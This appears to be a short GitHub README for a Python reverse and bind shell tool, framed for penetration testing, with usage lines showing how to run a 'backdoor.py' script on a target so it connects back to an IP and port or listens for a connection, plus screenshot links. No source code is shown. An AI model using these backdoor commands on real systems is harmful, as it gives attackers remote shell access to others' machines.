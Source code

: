Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://preview.ibb.co/hjc50z/2.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)

<img src="https://image.ibb.co/hiwLYK/Screen_Shot_08_20_18_at_04_52_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">


